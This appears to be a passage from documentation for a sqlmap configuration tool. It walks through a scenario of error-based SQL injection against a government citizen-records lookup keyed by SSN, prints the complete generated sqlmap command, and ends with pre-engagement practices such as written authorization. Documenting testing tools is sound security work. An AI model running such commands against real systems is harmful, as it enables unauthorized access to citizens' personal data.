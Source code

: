 ## 🏛️ Government System Testing

### Scenario 10: Public Records Database
**Target:** Government citizen records system
**Vulnerability:** Error-based injection in citizen lookup

**Configuration:**
```
Target Tab:
├── URL: https://gov.agency.gov/citizen.php?ssn=123-45-6789&state=CA
├── Method: GET
├── Certificate: /path/to/gov_client.crt
├── Key: /path/to/gov_client.key
├── CA Certificate: /path/to/gov_ca.crt
└── Timeout: 120

Detection Tab:
├── Level: 4
├── Risk: 2
├── Techniques: E (Error-based)
├── Time Delay: 2
└── Retries: 3

Injection Tab:
├── Testable Parameters: ssn,state
├── DBMS: Oracle
├── Union Columns: 10
└── Union Test All: ✓

Request Tab:
├── Safe URL: https://gov.agency.gov/session_refresh.php
├── Safe POST: refresh_token=valid
└── Delay: 3
```

**Generated Command:**
```bash
sqlmap -u "https://gov.agency.gov/citizen.php?ssn=123-45-6789&state=CA" --client-cert=/path/to/gov_client.crt --client-key=/path/to/gov_client.key --ca-cert=/path/to/gov_ca.crt --timeout=120 --level=4 --risk=2 --technique=E --time-sec=2 --retries=3 -p ssn,state --dbms=oracle --union-cols=10 --union-test-all --safe-url="https://gov.agency.gov/session_refresh.php" --safe-post="refresh_token=valid" --delay=3 --batch
```

## 📋 Testing Methodology Best Practices

### Pre-engagement Planning
1. **Scope Definition**: Clearly define testing boundaries and constraints
2. **Authorization**: Obtain explicit written permission for all testing activities
3. **Data Handling**: Establish procedures for handling sensitive data discovery
4. **Communication**: Set up regular check-ins and reporting schedules
